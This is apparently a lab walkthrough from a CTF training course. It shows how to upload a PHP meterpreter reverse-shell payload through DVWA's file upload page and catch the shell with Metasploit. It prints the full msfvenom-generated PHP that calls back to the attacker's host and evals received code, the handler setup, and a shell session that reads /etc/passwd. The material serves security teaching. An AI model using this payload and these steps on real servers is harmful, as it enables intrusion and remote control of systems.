 Exploiting a Web Server
=========================================

This exploit uses some of the basic functions of the DVWA web site to
demonstrate how to hack through the site itself. A hacker would use this
as a means of circumventing your perimeter to gain access to your
applications, servers and data.

We will start by creating a pre-canned piece of php code that we will
upload to the web server through the upload function on DVWA. For this
exercise you will need to locate the external IP for your Kali server.
This IP is generated dynamically for each student but we have written a
script and an iRule on the CTF server to return the IP address you’ll
need.

On the Kali server, run the following:

msfvenom -p php/meterpreter/reverse\_tcp lport=4444 -f raw lhost=\`curl
-k https://ctf.f5lab.biz/whatismyip\`

% Total % Received % Xferd Average Speed Time Time Time Current

Dload Upload Total Spent Left Speed

100 14 100 14 0 0 492 0 --:--:-- --:--:-- --:--:-- 518

No platform was selected, choosing Msf::Module::Platform::PHP from the
payload

No Arch selected, selecting Arch: php from the payload

No encoder or badchars specified, outputting raw payload

Payload size: 950 bytes

/\*<?php /\*\*/ error\_reporting(0); $ip = '<YOUR-IP>'; $port = 4444; if
(($f = 'stream\_socket\_client') && is\_callable($f)) { $s =
$f("tcp://{$ip}:{$port}"); $s\_type = 'stream'; } elseif (($f =
'fsockopen') && is\_callable($f)) { $s = $f($ip, $port); $s\_type =
'stream'; } elseif (($f = 'socket\_create') && is\_callable($f)) { $s =
$f(AF\_INET, SOCK\_STREAM, SOL\_TCP); $res = @socket\_connect($s, $ip,
$port); if (!$res) { die(); } $s\_type = 'socket'; } else { die('no
socket funcs'); } if (!$s) { die('no socket'); } switch ($s\_type) {
case 'stream': $len = fread($s, 4); break; case 'socket': $len =
socket\_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen",
$len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch
($s\_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break;
case 'socket': $b .= socket\_read($s, $len-strlen($b)); break; } }
$GLOBALS['msgsock'] = $s; $GLOBALS['msgsock\_type'] = $s\_type;
eval($b); die();

Highlight the section of code that was generated – from the “/\*<?php”
to the end “die;”

Open a Command prompt on the Windows PC. In the command prompt type:

CD Desktop

Notepad hackdvwa.php

.. image:: /_static/class4/image5.png
   :width: 4.14931in
   :height: 1.28102in

In Notepad, paste the copied code and Save and Close the file.

.. image:: /_static/class4/image6.png
   :width: 5.27007in
   :height: 2.59514in

Open a Web Browser and go to https://dvwa.vlab.f5demo.com

Log in with admin / password

Choose the Upload menu on the lower left

.. image:: /_static/class4/image7.png
   :width: 5.30972in
   :height: 4.49306in

Click ‘Choose File’ and select the hackdvwa.php file you just created on
the Desktop and click ‘Upload’

.. image:: /_static/class4/image8.png
   :width: 5.30972in
   :height: 3.63611in

.. image:: /_static/class4/image9.png
   :width: 4.77802in
   :height: 2.15289in

The file is then posted to the server and the location is displayed for
you as a means of confirmation. You can copy this and paste it at the
end of the URL in the browser.

In the browser, visit that file’s location:
http://dvwa.vlab.f5demo.com/hackable/uploads/hackdvwa.php

This will actually fail and you should see a “no socket” message, but
we’ll set that up next.

Back to the Kali ssh session we will set up the server to connect to
from the web server.

If you’re not within msfconsole anymore, start it:

msfconsole

Now we want to choose an exploit to run.

use exploit/multi/handler

To see what is selected for this exploit by default, type:

options

Module options (exploit/multi/handler):

Name Current Setting Required Description

---- --------------- -------- -----------

Exploit target:

Id Name

-- ----

0 Wildcard Target

this selects the exploit we’ll run in Metasploit

set payload php/meterpreter/reverse\_tcp

To see the options for this payload, type:

options

Module options (exploit/multi/handler):

Name Current Setting Required Description

---- --------------- -------- -----------

Payload options (php/meterpreter/reverse\_tcp):

Name Current Setting Required Description

---- --------------- -------- -----------

LHOST yes The listen address

LPORT 4444 yes The listen port

Exploit target:

Id Name

-- ----

0 Wildcard Target

This chooses the actual payload we’re going to send through the exploit
and we’ll set some parameters. To see the options:

show options

msf exploit(handler) > set payload php/meterpreter/reverse\_tcp

payload => php/meterpreter/reverse\_tcp

msf exploit(handler) > show options

Module options (exploit/multi/handler):

Name Current Setting Required Description

---- --------------- -------- -----------

Payload options (php/meterpreter/reverse\_tcp):

Name Current Setting Required Description

---- --------------- -------- -----------

LHOST yes The listen address

LPORT 4444 yes The listen port

Exploit target:

Id Name

-- ----

0 Wildcard Target

Set the options as follows:

set lhost 10.1.10.240

set lport 4444

lhost and lport
^^^^^^^^^^^^^^^

These options are the ‘local’ listening IP and port for the exploit.
Note that the IP here is the internal NAT’d IP address. In the above php
code you entered the External NAT’d address.

Return to your web browser on the Windows PC and refresh the page.

Now we can start the server:

exploit

exploit
^^^^^^^

Exploit is the fun command… here we are running the exploit we want to
see. You can also use ‘run’ but exploit is so much more Hacker.

After a few seconds, you should see:

[\*] Started reverse TCP handler on 10.1.10.240:4444

[\*] Starting the payload handler...

[\*] Sending stage (33986 bytes) to <YOURIP>

[\*] Meterpreter session 3 opened (10.1.10.240:4444 -> <IP>:PORT) at
<Date>

And then a moment or two later:

meterpreter >

Meterpreter
-----------

Meterpreter is the “Swiss Army Knife” of the Metasploit Framework. You
can open a meterpreter console up through an exploit, like we just did.
In this case, we set up Metasploit to listen for incoming traffic on
port 4444 on our NAT’d internet address. We had to do this because the
DMZ address isn’t accessible by the Web Server but it is allowed to
connect to the internet. We then run the uploaded php code we generated
which opens the connection and now we’re able to run commands on the web
server as though we had an ssh-like connection.

Let’s examine the web server so see what we can find.

In the Meterpreter shell type:

dir

We can the following:

meterpreter > dir

Listing: /var/www/dvwa/hackable/uploads

Mode Size Type Last modified Name

---- ---- ---- ------------- ----

100644/rw-r--r-- 667 fil 2013-07-08 12:55:06 -0400 dvwa\_email.png

100644/rw-r--r-- 950 fil 2017-06-19 09:11:52 -0400 hackdvwa.php

100644/rw-r--r-- 951 fil 2017-06-14 13:50:15 -0400 hackme.php.txt

We can see what accounts are on this server by typing:

cat /etc/passwd

To see a list of the commands that are available to you, you can type
*help* at any point

Feel free to investigate the web server, when you’re finished type
*exit* and the Meterpreter shell will close.

Note that when you close the session, the web page finally ends
spinning.
